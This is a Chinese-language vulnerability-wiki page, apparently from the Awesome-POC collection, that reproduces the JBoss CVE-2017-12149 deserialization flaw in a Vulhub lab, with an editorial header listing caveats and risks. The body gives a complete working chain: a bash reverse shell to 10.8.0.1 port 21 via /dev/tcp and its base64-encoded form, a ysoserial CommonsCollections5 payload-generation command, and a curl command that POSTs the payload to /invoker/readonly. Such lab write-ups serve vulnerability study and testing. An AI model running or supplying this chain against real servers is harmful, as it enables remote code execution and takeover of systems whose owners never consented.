




# JBoss 5.x 6.x 反序列化漏洞 CVE-2017-12149

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：/invoker/readonly可达、兼容CC5依赖及JRE版本；默认实验JBoss6
- 证据范围：入口和POST序列化体清楚，CC5选择只说Java较新但缺精确版本可重复性。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- curl -v POST将POST当额外URL，缺-X，不过--data-binary仍使目标请求POST
- 初始bash编码示例管道两侧空格与后文Runtime.exec无空格形式不同，不能原样等价
- 监听步骤写在发送后可能错过回连，应明确先监听；端口21有权限/网络限制
- 代码Base64原文已读未运行未解码，结果依赖截图
- 缺发行版包差异和修复/禁用invoker建议

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

该漏洞为 Java 反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

参考：

- https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg
- https://access.redhat.com/security/cve/cve-2017-12149

## 环境搭建

Vulhub 执行以下命令启动一个 Jboss 6.0 的应用：

```shell
docker-compose up -d
```

首次执行时会有 1~3 分钟时间初始化，初始化完成后访问 `http://your-ip:8080/` 即可看到 JBoss 默认页面。



## 漏洞复现

该漏洞出现在 `/invoker/readonly` 请求中，服务器将用户提交的 POST 内容进行了 Java 反序列化：



所以，我们用常规 Java 反序列化漏洞测试方法来复现该漏洞。

### 编写反弹 shell 的命令

我们使用 bash 来反弹 shell，但由于 `Runtime.getRuntime().exec()` 中不能使用管道符等 bash 需要的方法，我们需要用进行一次编码。

```shell
bash -i >& /dev/tcp/10.8.0.1/21 0>&1

# base64 编码
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjAuMS8yMSAwPiYx} | {base64,-d} | {bash,-i}
```

### 序列化数据生成

使用 [ysoserial](https://github.com/frohoff/ysoserial) 来复现生成序列化数据，由于 Vulhub 使用的 Java 版本较新，所以选择使用的 gadget 是 CommonsCollections5：

```
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser
```

### 发送 POC

生成好的 POC 即为 `poc.ser`，将这个文件作为 POST Body 发送至 `/invoker/readonly` 即可：

```shell
curl -v POST http://your-ip:8080/invoker/readonly -H 'Content-Type: application/data' --data-binary @poc.ser
```



监听 21 端口，接收反弹 shell：




---

> 来源：Threekiii/Awesome-POC
